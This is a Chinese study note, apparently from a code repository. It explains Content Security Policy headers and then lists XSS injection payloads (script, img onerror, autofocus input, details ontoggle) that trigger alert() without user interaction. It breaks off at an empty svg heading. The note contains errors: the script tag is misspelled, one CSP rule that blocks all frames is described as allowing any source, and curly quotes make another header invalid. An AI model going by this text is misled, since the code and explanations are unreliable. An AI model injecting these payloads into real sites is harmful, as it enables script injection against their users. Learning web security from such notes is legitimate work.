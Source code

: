 CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

通常可以通过两种方式来开启 CSP：

- 设置 HTTP Header 中的 Content-Security-Policy
- 设置 meta 标签的方式 `<meta http-equiv="Content-Security-Policy">`

以设置 HTTP Header 来举例

- 只允许加载本站资源

```
Content-Security-Policy: default-src ‘self’
```

- 图片只允许加载 HTTPS 协议

```
Content-Security-Policy: img-src https://*
```

- 允许加载任何来源框架

```
Content-Security-Policy: child-src 'none'
```

[CSP](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP) ( Content Security Policy )

## XSS 注入方法

参考链接：https://xz.aliyun.com/t/4067

### `<scirpt>`

    <scirpt>alert("xss");</script>

### `<img>`

    <img src=1 onerror=alert("xss");>

### `<input>`

    <input onfocus="alert('xss');">

    竞争焦点，从而触发onblur事件
    <input onblur=alert("xss") autofocus><input autofocus>

    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <input onfocus="alert('xss');" autofocus>

### `<details>`

    <details ontoggle="alert('xss');">

    使用open属性触发ontoggle事件，无需用户去触发
    <details open ontoggle="alert('xss');">

### `<svg>`
